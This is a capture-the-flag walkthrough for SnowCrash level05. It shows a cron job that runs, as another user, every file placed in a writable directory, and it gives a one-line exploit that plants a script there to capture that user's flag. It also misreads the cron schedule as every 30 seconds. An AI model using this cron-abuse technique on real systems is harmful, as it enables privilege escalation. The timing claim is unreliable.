 # Snowcrash05

There's nothing in our home, but we're informed that we have mail

```sh
level05 password:
You have new mail.
level05:~$
```

Huh ? Mail in linux ? https://superuser.com/questions/306163/what-is-the-you-have-new-mail-message-in-linux-unix

Ok so let's open the mail then

```sh
~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

~$ ls -l /usr/sbin/openarenaserver 
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
```

Ok so the mail is a cron command, there is a script thats being executed every 30 seconds it seems by a flag process.

Here is the target script
```sh
#!/bin/sh
for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

So basically it execs all the files in /opt/openarenaserver/ and then deletes them should be easy to exploit.



```sh
echo "getflag > /tmp/pass.txt" > /opt/openarenaserver/test.sh ; while :; do cat /tmp/pass.txt 2> /dev/null ; done
```

We have to wait a bit for the server to exec the file, but here it is